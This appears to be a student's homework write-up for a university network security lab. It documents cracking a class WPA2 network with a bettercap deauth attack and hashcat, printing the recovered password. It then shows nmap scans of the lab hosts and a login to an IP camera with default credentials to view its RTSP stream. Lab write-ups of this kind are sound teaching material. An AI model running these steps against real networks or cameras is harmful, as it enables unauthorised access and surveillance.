


# HW 3

## Instructions

1. Using the bettercap tool, crack the NetSec WiFi network password. This is a WPA2 network, and is currently living in FAB 140 (the lab next to the fishbowl). It is accessible from various points in the near vicinity of that room. You have already seen how the aircrack suite does this, so you may know the password. But let’s pretend we don’t. You can potentially use your own hardware for this task. If you have a raspberry pi, are running macOS or Linux on your laptop, or have a USB WiFi adapter that supports monitor mode, you can use that. If you don’t have any of these, you can use your kali workstation, though you’ll need to make arrangements with me to attach a USB wifi adapter to your workstation.
  1. Use bettercap to find the BSSID and connected clients of the NetSec network.
  2. Use bettercap to perform a deauth attack on the network and capture the 4-way handshake.
  3. Use the hcx toolsuite to convert the captured handshake to a format that hashcat can understand.
  4. Crack the password using hashcat. You should use the rockyou.txt wordlist.
2. Once you have documented all of the above (commands, output, everything you would need to walk through it again) in your hw3.md file, connect your workstation to the wireless network. You should be able to do this with the password you just cracked. Take a screenshot showing the connection to the network. The easiest way is to the use the nmtui tool.
3. Now that you have access to the network, use the nmap tool to scan the network. You should be able to find the IP address of the router and the IP addresses of the associated clients. Document this in your hw3.md file.
4. For each associated client, use the nmap tool to scan the client. You should be able to find the open ports and services running on the client. Document this in your hw3.md file.
5. There are multiple RTSP streams active on the network. Find it, access it, and take a screenshot of what it’s looking at. What is it? What’s the title? Who wrote it? Document this in your hw3.md file.

## Documentation

- ### **Set up wifi adapter in Kali**
  - Change USB settings in VirtualBox to **3.0**  
    - Add filter for the MediaTek adapter  
  - Spin up Kali VM and then plug in adapter  
  - Check the adapter is visible
    >lsusb  
  - Check the name of interface it shows up as  
    >ip a  
  - Turn on monitor mode  
    >sudo airmon-ng check kill  
    >sudo airmon-ng start wlan0  
    >iwconfig #to confirm  
  - Interface is now **wlan0mon**  

- ### **Utilize Bettercap to aqcuire handshake**  
  - Start bettercap  
    >sudo bettercap -iface wlan0mon  
  - Find the BSSID (knowing the ESSID is netsec)  
    >wifi.recon on
  - Find that netsec has a BSSID of **18:E8:29:A4:2E:3A** on channel **112**  
  - Set the channel and BSSID for recon
    >set wifi.recon.channel 112  
    >set wifi.recon 18:E8:29:A4:2E:3A  
  - Run deauth attack on BSSID
    >wifi.deauth 18:E8:29:A4:2E:3A  
  - Wait for handshake to complete and file to be written automatically  
  - File called bettercap-wifi-handshakes.pcap contains handshake  

- ### **Crack password with handshake using hashcat in WSL**  
  - Copy file from **root** to **ari** user and then copy to local host to complete crack  
  - In WSL, convert .pcap file to .22000 for use with hascat  
    >hcxpcapngtool handshake.pcap -o handshake.22000  
  - Run handshake.22000 file against wordlist **rockyou.txt.** using hashcat 
    >gzip -dc /usr/share/wordlists/rockyou.txt.gz  
    >hashcat -m 22000 handshake.22000 wordlist.txt  
  - Runs for about 10-15min and cracks password  
    >nbn311869  

- ###  **Connect to netsec and proceed with discovery**  
  -   
  - Scan the network for clients  
    >nmap -sn 192.168.1.1/24  
```
Nmap scan report for OPNsense.localdomain (192.168.1.1)
Host is up (0.0040s latency).
MAC Address: E4:5F:01:6D:F2:F5 (Raspberry Pi Trading)
Nmap scan report for 192.168.1.100
Host is up (0.015s latency).
MAC Address: 18:E8:29:A3:2E:3A (Ubiquiti)
Nmap scan report for 192.168.1.101
Host is up (0.014s latency).
MAC Address: 74:83:C2:19:4D:9D (Ubiquiti)
Nmap scan report for 192.168.1.103
Host is up (0.014s latency).
MAC Address: 2C:CF:67:C6:78:56 (Raspberry Pi (Trading))
Nmap scan report for 192.168.1.104
Host is up (0.013s latency).
MAC Address: EC:71:DB:44:78:23 (Reolink Innovation Limited)
Nmap scan report for 192.168.1.107
Host is up (0.23s latency).
MAC Address: 3C:E9:F7:DE:D0:64 (Intel Corporate)
Nmap scan report for 192.168.1.108
Host is up (0.0054s latency).
MAC Address: 2C:CF:67:C6:78:57 (Raspberry Pi (Trading))
Nmap scan report for 192.168.1.115
Host is up.
```
  - Raspberry Pi Router IP: 192.168.1.1  
  - Ubiquiti Switch IP: 192.168.1.100  
  - Ubiquiti AP IP: 192.168.101  
  - Raspberry Pi IP: 192.168.1.103 & 192.168.1.108
  - Reolink Camera IP: 192.168.1.104  
  - Intel device IP: 192.168.1.107  
  
  - Run nmap to find open ports and services on each identified client above  
    >sudo nmap -Pn -sS -sV -O --reason --open -T4 192.168.1.100-101 192.168.1.103-104 192.168.1.107-108    
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-02 17:38 PDT
Nmap scan report for 192.168.1.100
Host is up, received arp-response (0.0054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 Dropbear sshd 2022.83 (protocol 2.0)
MAC Address: 18:E8:29:A3:2E:3A (Ubiquiti)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/2%OT=22%CT=1%CU=31161%PV=Y%DS=1%DC=D%G=Y%M=18E829%TM
OS:=688EB04F%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=I%II=I%
OS:TS=U)SEQ(SP=104%GCD=1%ISR=105%TI=Z%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=1
OS:0B%TI=Z%CI=I%II=I%TS=U)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=U)SEQ(
OS:SP=F8%GCD=1%ISR=FF%TI=Z%CI=I%II=I%TS=U)OPS(O1=M5B4NNSNW4%O2=M5B4NNSNW4%O
OS:3=M5B4NW4%O4=M5B4NNSNW4%O5=M5B4NNSNW4%O6=M5B4NNS)WIN(W1=7210%W2=7210%W3=
OS:7210%W4=7210%W5=7210%W6=7210)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW4%CC=N%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.101
Host is up, received arp-response (0.028s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 Dropbear sshd 2022.83 (protocol 2.0)
MAC Address: 74:83:C2:19:4D:9D (Ubiquiti)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.103
Host is up, received arp-response (0.016s latency).
Not shown: 991 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE         REASON         VERSION
21/tcp   open  ftp             syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh             syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
53/tcp   open  tcpwrapped      syn-ack ttl 64
111/tcp  open  rpcbind         syn-ack ttl 64 2-4 (RPC #100000)
2049/tcp open  nfs_acl         syn-ack ttl 64 3 (RPC #100227)
3306/tcp open  mysql           syn-ack ttl 64 MariaDB 5.5.5-10.11.11
8080/tcp open  http            syn-ack ttl 64 Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca syn-ack ttl 64 Nagios NSCA
MAC Address: 2C:CF:67:C6:78:56 (Raspberry Pi (Trading))
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.104
Host is up, received arp-response (0.015s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
21/tcp   open  tcpwrapped      syn-ack ttl 64
80/tcp   open  http            syn-ack ttl 64 nginx
443/tcp  open  ssl/http        syn-ack ttl 64 nginx
554/tcp  open  rtsp            syn-ack ttl 64 DoorBird video doorbell rtspd
1935/tcp open  rtmp?           syn-ack ttl 64
6001/tcp open  rtsp            syn-ack ttl 64 DoorBird video doorbell rtspd
8000/tcp open  tcpwrapped      syn-ack ttl 64
8888/tcp open  sun-answerbook? syn-ack ttl 64
9000/tcp open  cslistener?     syn-ack ttl 64
MAC Address: EC:71:DB:44:78:23 (Reolink Innovation Limited)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: Device: webcam

Nmap scan report for 192.168.1.107
Host is up, received arp-response (0.028s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 64 vsftpd 3.0.5
22/tcp   open  ssh           syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind       syn-ack ttl 64 2-4 (RPC #100000)
3306/tcp open  mysql         syn-ack ttl 64 MariaDB 5.5.5-10.11.13
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Service
MAC Address: 3C:E9:F7:DE:D0:64 (Intel Corporate)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.108
Host is up, received arp-response (0.022s latency).
Not shown: 991 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE         REASON         VERSION
21/tcp   open  ftp             syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh             syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
53/tcp   open  tcpwrapped      syn-ack ttl 64
111/tcp  open  rpcbind         syn-ack ttl 64 2-4 (RPC #100000)
2049/tcp open  nfs             syn-ack ttl 64 3-4 (RPC #100003)
3306/tcp open  mysql           syn-ack ttl 64 MariaDB 5.5.5-10.11.11
8080/tcp open  http            syn-ack ttl 64 Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca syn-ack ttl 64 Nagios NSCA
MAC Address: 2C:CF:67:C6:78:57 (Raspberry Pi (Trading))
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
  - RTSP stream exists on 192.168.1.104 at port 554 & 6001  
    - Show the Kali VM and go to ip in firefox  
    - Use default credentials to log in: admin, password  
        
    - There appears to be four books in the image  
      1. Starting Forth by Leo Brodie/Forth Inc.  
      2. The PowerPC Architecture by Ed Sikha and Rick Simpson  
      3. Robert's Rules of Order Newly Revised by Henry M. Robert III Et al.  
      4. Smalltalk-80 by Adele Goldberg and David Robson  


